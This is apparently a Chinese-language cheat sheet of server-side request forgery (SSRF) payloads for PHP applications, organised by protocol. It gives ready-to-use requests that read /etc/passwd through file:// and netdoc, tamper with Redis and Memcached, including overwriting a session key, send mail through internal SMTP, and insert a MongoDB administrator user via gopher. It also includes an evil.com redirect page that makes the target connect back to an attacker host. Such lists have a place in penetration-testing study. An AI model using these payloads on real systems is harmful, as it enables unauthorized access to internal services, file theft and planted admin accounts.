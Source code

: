 # SSRF

PHP函数：

+ file_get_contents

+ fsockopen

+ curl_exec

+ fopen

+ mdf_file

## 协议

(1)HTTP/HTTPS

```html
ssrf.php?page=http://127.0.0.1:80
ssrf.php?page=http://127.0.0.1:8080
ssrf.php?page=https://127.0.0.1
```

(2)File

```html
ssrf.php?page=file:///etc/passwd
ssrf.php?page=file://\/\/etc/passwd
```

(3)Dict

```html
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?page=dict://服务器地址:11111/
```

(4)文件传输协议

```html
ftp://user:password@目标站点/  //FTP协议
tftp://目标站点/../file.txt //TFTP协议
sftp://目标站点:11111/  //SFTP协议
```

(5)LDAP

```html
ssrf.php?page=ldap://localhost:11211/%0astats%0aquit
```

(6)SMB

```html
ssrf.php?page=smb://server/share
```

(7)Redis/Memcached

Redis
```html
/proxy?url=redis://Redis服务器地址:6379/set%20mykey%20myvalue
```

Memcached
```html
/proxy?url=memcached://Memcached服务器地址:11211/stats
```

```html
/proxy?url=memcached://Memcached服务器地址:11211/set%20session_user_id%200%20200%2010
//用值0覆盖Memcached中应用程序的会话密钥（session_user_id）
/proxy?url=memcached://Memcached服务器地址:11211/get%20session_user_id
//获取密钥session_user_id的值，用于验证先前的设置命令是否成功
```

(8)Gopher

格式
```html
gopher://host:port/selector
```

与SMTP通信发送电子邮件
```html
GET /ssrf?url=gopher://内部SMTP服务器地址:25/_MAIL%20FROM%3A%3Csnowwolf%40test.com%3E%0D%0ARCP%54%20TO%3A%3Cuser%40example.com%3E%0D%0ADATA%0D%0ASubject%3A%20SSRF%20Test%0D%0A%0D%0AThis%20is%20an%20email%20sent%20via%20SSRF%20exploit.%0D%0A.%0D%0AQUIT%0D%0A HTTP/1.1
```

SMTP页面
```html
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@ghostwolflab.com>',
                'RCPT To: <admin@test.com>',
                'DATA',
                'Subject: @security!',
                'Hello, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

创建MongoDB用户
```html
gopher://内部MongoDB服务器地址:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%07%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00%00%00administrator%00%00%00%00
```

HTTP
```html
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

回连1337端口
```html
创建evil.com/redirect.php页面
<?php
header("Location: gopher://攻击者主机:1337/_SSRF%0ATest!");
?>

访问地址
https://目标WEB应用程序/?q=http://evil.com/redirect.php
```


(9)Netdoc

```html
ssrf.php?url=netdoc:///etc/passwd
```
